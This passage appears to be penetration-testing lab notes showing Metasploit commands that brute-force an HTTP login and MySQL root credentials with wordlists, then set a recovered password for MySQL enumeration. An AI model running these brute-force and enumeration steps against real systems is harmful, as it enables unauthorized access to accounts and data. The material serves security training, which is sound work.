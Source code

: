 The user is `rooty`.

```
msf5> use auxiliary/scanner/http/http_login
msf5> set auth_uri /secure/
msf5> unset USERPASS_FILE
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/namelist.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> set verbose false
msf5> run
```

### MySQL enumeration

* MySQL is an open-source relational database management system based on SQL (Structured Query Language).
* It is typically used to store records, customer data, and is most commonly deployed to store web application data.
* MySQL utilizes TCP port 3306 by default, however, like any service it can be hosted on any open TCP port.
* We can utilize auxiliary modules to enumerate the version of MySQL, perform brute-force attacks to identify passwords, execute SQL queries and much more.

```
root@attackdefense> system postgresql start && msfconsole

msf5> workspace -a mysql_enum
msf5> setg rhosts 192.35.65.3
msf5> search type:auxiliary name:mysql
msf5> run
```

<figure><img src="../../.gitbook/assets/87.png" alt=""><figcaption></figcaption></figure>

```
msf5> use auxiliary/scanner/mysql/mysql_login
msf5> set username root
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> set stop_on_success true
msf5> run
```

<figure><img src="../../.gitbook/assets/88.png" alt=""><figcaption></figcaption></figure>

```
msf5> use auxiliary/admin/mysql/mysql_enum
msf5> setg username root
msf5> setg password twinkle
```
